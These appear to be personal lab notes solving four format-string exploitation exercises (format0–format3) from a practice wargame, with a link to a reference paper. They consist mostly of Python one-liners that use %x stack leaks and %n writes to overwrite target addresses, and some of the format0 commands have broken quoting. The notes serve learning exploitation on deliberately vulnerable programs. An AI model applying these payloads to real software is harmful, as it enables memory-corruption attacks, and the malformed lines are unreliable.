 https://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf

##Format0
* can be done in stackoverflow and format
* `./format0 python -c "print -c 'A'*64+\xef\xbe\xad\xde\"`
* `./format0 python -c "print -c '%64d'+'\xef\xbe\xad\xde\'"`

##Format1
* this is bit tricky as the offset not just in the 128 place
* ./format1 `python -c "print 'AAAAAAAA'+'%x.'*150"`
* identify the offset is 128 like this `41414100.41414141.2e782541` so we need add 1 extra `A` for the attack
* identify the target address
* `objdump -t ./format1 | grep target`
* `08049638`
* ./format1 `python -c "print '\x38\x96\x04\x08A%128$n'"`

##Format2
* first step similar with that last one
* we get `python -c 'print "\xe4\x96\x04\x08%x%x%x%n"'` | ./format2
* but target is just 23
* just changing the format string from “%x” to “%44x”. This pads the string to be 44 characters long(magic)
* `python -c 'print "\xe4\x96\x04\x08%44x%x%x%n"'` | ./format2

##Format3
* similar with last one and I sloved in a bit stupid way
* `python -c 'print "\xf4\x96\x04\x08"+"%x"*10+"%16930059x%n"' | ./format3`
* smart way
* `python -c "print '\xf4\x96\x04\x08'+'%x'*10+'%11x%n'+'AA\xf5\x96\x04\x08'+'%x'*6+'%475x%n'+'A\xf7\x96\x04\x08'+'%x'*4+'%135x%n'" | ./format3`